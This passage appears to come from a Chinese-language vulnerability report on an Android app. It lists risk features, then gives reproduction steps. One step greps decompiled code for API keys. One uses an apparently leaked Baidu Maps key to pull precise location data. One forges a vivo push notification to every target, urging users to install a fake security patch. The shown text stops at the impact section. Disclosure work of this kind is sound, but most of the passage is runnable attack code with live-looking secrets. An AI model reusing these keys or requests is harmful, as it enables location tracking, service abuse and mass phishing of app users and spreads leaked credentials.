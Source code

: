 #### 风险特征：

- 日志包含完整 API 请求参数
- 错误响应暴露内部配置（`sec_code_debug`字段）
- 客户端保留测试接口（如`enablePlayerPanel`开关）

---

## 三、漏洞复现

### 步骤 1：提取密钥

```bash
# 反编译APK后执行
grep -r -E "(api_key|client_secret)" ./smali*
```

### 步骤 2：构造恶意请求

```python
# 使用泄露的百度地图密钥
import requests
response = requests.get(
    "https://api.map.baidu.com/location/v2",
    params={
        "ak": "UEnH61ElxrwvKKBOA6oTgio7",
        "coordtype": "wgs84ll",
        "location": "31.23,121.47"
    }
)
print(response.json())  # 成功获取精确地理位置
```

### 步骤 3：模拟攻击

```javascript
// 利用vivo推送密钥发送伪造通知
POST https://push.vivo.com/api/v1/notify
{
    "notification": {
        "title": "系统更新",
        "content": "点击安装安全补丁",
        "key": "a71e4cd2-3308-4f30-8cde-652d6ec3d7ce"
    },
    "target": ["*"]
}
```

---

## 四、漏洞危害

### 直接影响：
